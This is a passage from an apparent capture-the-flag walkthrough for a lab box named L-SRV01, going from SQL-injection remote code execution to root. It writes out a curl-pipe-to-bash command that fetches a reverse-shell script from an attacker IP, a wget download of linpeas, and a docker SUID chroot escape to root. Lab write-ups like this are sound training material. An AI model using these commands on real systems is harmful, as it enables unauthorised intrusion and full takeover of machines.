 * After running the injection command in ```mysql```, we can exit it and use ```curl``` for RCE.

* We can now use this RCE to get a stable reverse shell on the box; we will use a shell script for this, hosted from attacker machine.

* This would be executed from the RCE on target box so as to get reverse shell on our listener; we can use ```curl``` to execute it:

  ```curl http://10.50.109.20:80/shellscript.sh|bash &```

* We need to URL-encode this command before passing it as parameter to the RCE command.

* We can get the user flag from the L-SRV01 box.

```markdown
1. What user is the database running as? - www-data
```

## Privilege Escalation - 1

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'

cd /tmp

#setup http server in attacker machine

wget http://10.50.109.20:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh
#check for privesc

#docker has SUID bit set
#exploit from GTFObins

docker images
#we have ubuntu image

/usr/bin/docker run -v /:/mnt --rm -it ubuntu:18.04 chroot /mnt sh
#we get root shell

cat /root/root.txt
#root flag
```

* Now that we have shell as 'www-data' user on L-SRV01, we can attempt for privesc using ```linpeas```.

* This shows that ```docker``` has SUID bit set, we can get exploit from GTFObins.

* Upon privilege escalation, we get shell as root on L-SRV01; we can get root flag from the /root directory.
